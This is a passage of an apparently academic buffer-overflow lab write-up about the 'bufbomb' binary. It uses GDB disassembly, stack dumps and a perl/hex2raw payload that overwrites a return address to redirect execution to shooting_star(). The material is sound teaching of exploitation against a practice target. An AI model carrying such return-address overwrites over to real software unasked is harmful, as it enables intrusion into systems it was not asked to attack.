 **-Type < return > to continue, or q < return > to quit-**

We can see from the row **0x08048b7a <+3>** that register %edx is filled with the content of stack which is located at %esp+0x20. Then, at row 0x08048b7e <+7> we can see that register %eax is filled with the content of stack which is located at %esp+0x28. Then, what are the values contained within those 2 blocks of stack? We'll see them later.

Then we can see from row 0x08048b82 <+11> that the content of register %eax is compared with the content of block located at 0x804d10c. So, after register %eax is being filled with the stack's value located at %esp+0x28, its value is compared with the value of certain memory. The result of comparison must be same so that we can enter the next process. Then, what is the value contained at address 0x804d10c? To find it, we must run the program and break at procedure **shooting_star()**. We can break at that procedure by changing the return address of **ah_choo()** into 08048b77. Use this command:

> perl -e 'print "61 "x32, "62 "x20, "77 8b 04 08"' > hex0<br />
> ./hex2raw < hex0 > raw0<br />

And type this command:

> gdb bufbomb<br />
> (gdb) b shooting_star<br />
> Breakpoint 1 at 0x8048b77<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048b77 in shooting_star ()<br />

Now we can see the content of memory address 0x804d10c by typing this command:

> (gdb) x/ 0x804d10c<br />
> 0x804d10c < cookie >:    496949284<br />
> (gdb) p/x 496949284<br />
> $1 = 0x1d9ed824<br />

We can use command **p/x** to convert a number into hexadecimal representation.

Evidently, the content of that memory address is our cookie! This means if we want to proceed to the next Assembly code, the value of register %eax must be same with our cookie (0x1d9ed824). 

The problem is, how to change the value of register %eax into our cookie?

Let's see this assembly code.

Address | Operation | Elements in operation
--- | --- | ---
0x08048b7a <+3>:  |  mov  |  0x20(%esp), %edx
0x08048b7e <+7>:  |  mov  |  0x28(%esp), %eax

If we want to know the content of register %edx and %eax, we do need to see the content of the stack. Use this command (still using GDB):

> (gdb) ni<br />
> (gdb) x/20x $esp<br />

The content of stack | | | | |
--- | --- | --- | --- | ---
0x5568366c <_reserved+1037932>:  | 0x61616161  | 0x62626262  | 0x62626262  | 0x62626262
0x5568367c <_reserved+1037948>:  | 0x62626262  | 0x62626262  | 0x08048b77  | 0x00000000
0x5568368c <_reserved+1037964>:  | 0xf7fba000  | 0x0000000f  | 0x08048dcd  | 0xf7fbaac0
0x5568369c <_reserved+1037980>:  | 0x0000000a  | 0x0000000f  | 0xf7e12700  | 0x55685ff0
